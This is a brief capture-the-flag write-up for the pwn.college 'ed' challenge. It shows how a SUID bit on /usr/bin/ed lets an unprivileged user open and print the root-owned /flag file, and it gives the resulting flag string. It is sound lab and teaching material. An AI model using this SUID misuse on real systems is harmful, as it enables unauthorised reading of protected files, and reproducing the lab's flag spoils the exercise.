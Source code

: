# Challenge Name: ed
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/ed`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/ed
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/ed
```

- The `s` in `-rws` indicates it's a SUID binary.
- `ed` runs with **root privileges**.

## 🚀 Exploitation

The `ed` command is a line-oriented text editor in Unix/Linux — it's one of the oldest editors, and it's still present on nearly all Unix-like systems. I

When the ed termianl arise we can use p to print the content of /flag

```bash
ed /flag
p
```

Output:
```
pwn.college{EmquctdrjrQwCPgCvcux1o6UI-8.dhzNxwSM0IzMyEzW}
```
